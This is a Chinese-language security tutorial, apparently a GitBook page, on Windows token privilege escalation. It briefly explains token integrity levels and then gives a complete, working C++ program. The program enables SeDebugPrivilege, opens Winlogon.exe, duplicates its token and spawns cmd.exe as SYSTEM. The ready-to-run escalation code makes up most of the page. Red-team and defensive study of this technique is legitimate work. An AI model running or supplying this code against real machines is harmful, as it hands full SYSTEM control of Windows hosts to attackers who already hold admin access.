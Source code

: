 # 通过复制Token提权到SYSTEM

在windows系统中使用一个较高细粒度的Token来区分和管理权限，我们通常说的system权限administrator权限本质上是令牌的完整性和特权不同，通过细粒度较高的特权进行区分。

在本文中，不会对令牌机制进行详细的剖析，只需要知道它本质上是一个内核对象即可，详细的内容会在以后的内核操作文章中详细讲解。

* 下图分别是medium完整性令牌和high完整性令牌。

![](../.gitbook/assets/image%20%289%29.png)

![](../.gitbook/assets/image%20%2834%29.png)

## 提权流程

1. 打开system权限进程
2. 复制system权限进程Token
3. 使用复制Token打开新进程

## 代码实现

默认配置的管理员拥有SeDebugPrivilege，该权限用于调试进程，是否拥有直接决定你是否能打开写入调试注入如winlogon,system等进程。

```text
#include <windows.h>
#include <iostream>
#include <Lmcons.h>
#include <TlHelp32.h>

BOOL SePrivTokenrivilege(
	HANDLE hToken,          
	LPCTSTR lpszPrivilege, 
	BOOL bEnablePrivilege  
)
{
	LUID luid;

	if (!LookupPrivilegeValue(
		NULL,            
		lpszPrivilege,  
		&luid))       
	{
		return FALSE;
	}

	TOKEN_PRIVILEGES PrivToken;
	PrivToken.PrivilegeCount = 1;
	PrivToken.Privileges[0].Luid = luid;
	if (bEnablePrivilege)
		PrivToken.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	else
		PrivToken.Privileges[0].Attributes = 0;


	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&PrivToken,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		return FALSE;
	}

	return TRUE;
}


DWORD FindProcessPID(const wchar_t* ProcessName) {
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 process = { 0 };
	process.dwSize = sizeof(process);

	if (Process32First(snapshot, &process)) {
		do {
			if (!wcscmp((const wchar_t*)process.szExeFile,(const wchar_t*)ProcessName))
				break;
		} while (Process32Next(snapshot, &process));
	}

	CloseHandle(snapshot);
	return process.th32ProcessID;
}

int main(int argc, char** argv) {
	HANDLE hDpToken = NULL;
	
	

	HANDLE hCurrentToken = NULL;
	BOOL getCurrentToken = OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hCurrentToken);
	SePrivTokenrivilege(hCurrentToken, L"SeDebugPrivilege", TRUE);

	DWORD PID_TO_IMPERSONATE = FindProcessPID(L"Winlogon.exe");
	HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, true, PID_TO_IMPERSONATE);


	HANDLE hToken = NULL;
	BOOL TokenRet = OpenProcessToken(hProcess,
		TOKEN_DUPLICATE |
		TOKEN_ASSIGN_PRIMARY |
		TOKEN_QUERY, &hToken);

	BOOL impersonateUser = ImpersonateLoggedOnUser(hToken);
	if (GetLastError() == NULL)
	{
		RevertToSelf();
	}

	
	BOOL dpToken = DuplicateTokenEx(hToken, 
		TOKEN_ADJUST_DEFAULT |
		TOKEN_ADJUST_SESSIONID |
		TOKEN_QUERY |
		TOKEN_DUPLICATE |
		TOKEN_ASSIGN_PRIMARY,
		NULL,
		SecurityImpersonation,
		TokenPrimary,
		&hDpToken
	);


	STARTUPINFO startupInfo = {0};
	startupInfo.cb = sizeof(STARTUPINFO);
	PROCESS_INFORMATION ProcessInfo = {0};

	BOOL Ret = CreateProcessWithTokenW(hDpToken,
		LOGON_WITH_PROFILE,
		L"C:\\Windows\\System32\\cmd.exe",
		NULL, 0, NULL, NULL,
		&startupInfo,
		&ProcessInfo);


	return TRUE;
}
```

## LINKS

{% embed url="https://docs.microsoft.com/zh-cn/azure/active-directory/develop/access-tokens" %}




